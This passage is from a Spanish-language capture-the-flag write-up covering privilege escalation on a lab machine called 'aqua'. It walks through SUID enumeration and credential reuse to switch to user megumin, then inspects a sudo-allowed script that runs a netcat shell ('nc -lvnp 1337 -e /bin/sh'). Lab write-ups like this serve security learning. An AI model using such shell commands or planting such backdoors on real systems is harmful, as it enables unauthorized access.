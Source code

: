 ```bash
404CDD7BC109C432F8CC2443B45BCFE95980F5107215C645236E577929AC3E52
www-data@aqua:/home/aqua/Desktop$ 
```

Nos estan diciendo que hay 2 formas de ser root asi que bueno vamos a empezar a enumerar

```bash
www-data@aqua:/$ find \-perm -4000 2>/dev/null
./bin/ping6
./bin/fusermount
./bin/mount
./bin/su
./bin/umount
./bin/ping
./usr/bin/gpasswd
./usr/bin/chfn
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/newgrp
./usr/bin/sudo
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
```

No vamos a explotar el `pkexec` bueno podemos reutlizar credenciales

```bash
www-data@aqua:/$ su megumin
Password: 
megumin@aqua:/$ whoami
megumin
megumin@aqua:/$ 
```

## Root 1

```bash
megumin@aqua:/$ sudo -l
Matching Defaults entries for megumin on aqua:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User megumin may run the following commands on aqua:
    (ALL) NOPASSWD: /home/aqua/Desktop/backdoor
megumin@aqua:/$ 
```

Esta ejecutando una reverse shell al puerto `1337`

```bash
megumin@aqua:/$ cat /home/aqua/Desktop/backdoor 
#!/bin/bash

echo "[+] Backdoor opened! Hehehe..."

runuser -l aqua -c 'nc -lvnp 1337 -e /bin/sh' &>/dev/null
megumin@aqua:/$ 

```
